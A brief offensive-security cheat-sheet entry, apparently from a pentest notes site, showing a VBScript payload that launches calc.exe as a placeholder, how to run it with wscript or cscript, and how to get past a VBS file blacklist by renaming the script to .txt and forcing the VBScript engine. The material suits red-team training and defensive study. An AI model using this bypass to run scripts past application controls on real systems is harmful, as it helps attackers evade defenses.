# VBS

{% code title="payload.vbs" %}
```vba
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
{% endcode %}

```
wscript c:\Users\test\Desktop\payload.vbs
cscript c:\Users\test\Desktop\payload.vbs
```

If the **VBS files are blacklisted**, then we can rename the file to **.txt** file and run it using wscript as follows:

```powershell
wscript /e:VBScript c:\Users\test\Desktop\payload.txt
```
